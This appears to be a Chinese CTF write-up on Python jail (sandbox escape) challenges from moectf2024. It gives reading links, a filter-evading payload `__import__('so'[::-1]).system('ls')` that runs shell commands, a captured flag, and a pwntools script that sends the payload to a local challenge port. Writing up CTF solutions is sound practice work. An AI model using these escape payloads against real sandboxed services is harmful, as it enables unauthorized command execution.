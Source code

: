 ```yaml
---
tags:
  - notes
comments: true
dg-publish: true
level: ctfwp
---
```


> [!PREREQUISITE]
>
> 准备练练 python jail ，准备资料如下：

> - [Tr0y's Blog](https://www.tr0y.wang/)
>     - [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/)
>     - [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
>     - [Unicode 的使用](https://www.tr0y.wang/2020/08/18/IDN/#%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF)
> - [nssctf](https://www.nssctf.cn/problem) (搜 jail 即可)
>     - [一个简单的题解](https://www.aiwin.fun/index.php/archives/3992/)
> - [github-autojail](https://github.com/martcl/autojail)
> - [moectf2024 题目链接](https://ctf.xidian.edu.cn/games/10/challenges?challenge=95)

## moectf2024

### moejail_lv1

根据要求拼接字符串后允许我们注入 payload，简单尝试后发现 `__import__('so'[::-1]).system('ls')` 是可行的，将 `ls` 换为需要执行的语句即可。

根据提示，在 `/tmp/` 下，[注意使用 `ls -a` 显示全部](attachments/pyjail.png)，之后想要查看文件，但是因为文件名导致命令太长了，使用 `*` 进行匹配即可：

![](attachments/pyjail-1.png)

> [!FLAG]
>
> moectf{Ah_HA-nOW-Y0u_KNoW_H0w_T0_EsCApE-SIMpL3_5trlng_fILter0}

### moejail_lv2

后面的系列题交互是类似的，故使用 python 交互吧：

```python title="moejail.py"
from pwn import *
import re

# 启用debug模式
context.log_level = "debug"

# 建立连接
conn = remote("127.0.0.1", 51371, timeout=1)

# 接收欢迎信息
welcome_msg = conn.recvuntil(b"to continue:").decode()
# print(welcome_msg)

# 使用正则表达式匹配需要拼接的字符串
match = re.search(r"Please enter '(\w+)'\+'(\w+)'=\? to continue:", welcome_msg)
if match:
    str1, str2 = match.groups()
    answer = str1 + str2 + "\n"
    conn.send(answer.encode())
else:
    print("Failed to match the required strings")
    conn.close()
    exit(1)

print(conn.recvline().decode())

command = "__import__('so'[::-1]).system('ls')"

print(command)
conn.sendline(command.encode())

# 接收并打印所有输出
print(conn.recvall().decode())

# 关闭连接
conn.close()
```

我们只需要修改 command 即可。

### readme

偶遇一个提示？(attachments/MISC.png)
